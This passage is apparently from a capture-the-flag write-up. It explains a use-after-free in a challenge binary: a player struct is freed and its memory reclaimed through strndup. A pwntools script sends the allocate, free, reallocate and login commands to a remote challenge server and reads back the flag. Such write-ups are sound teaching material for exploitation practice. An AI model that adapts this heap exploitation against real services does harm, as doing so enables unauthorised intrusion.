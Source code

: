 So __strndup__ do call malloc and put a string in the memory! We can control the memory pointed by admin!


## Summary

* First we allocate memory for player (to set the pointer of __player__).
* Then free __player__ so we have a *dangling pointer*.
* Allocate memory with the routine that uses *strndup* and fill the structure with 0.
* Call the function that drops the flag.


Here is a snippet to do that:
```python
from pwn import *

with remote("quals.shadow-league.org", 5001) as p:
    p.sendline("set t35h_ftw")      # Allocate player
    p.sendline("del")               # Free player
    p.sendline("title " + "A" * 23) # Re allocate memory on top of player
    p.sendline("login")             # Drop the flag.
    p.readuntil("SCE{")
    flag = "SCE{" + p.readline()
    
log.info("Found the flag: {}".format(flag))
```
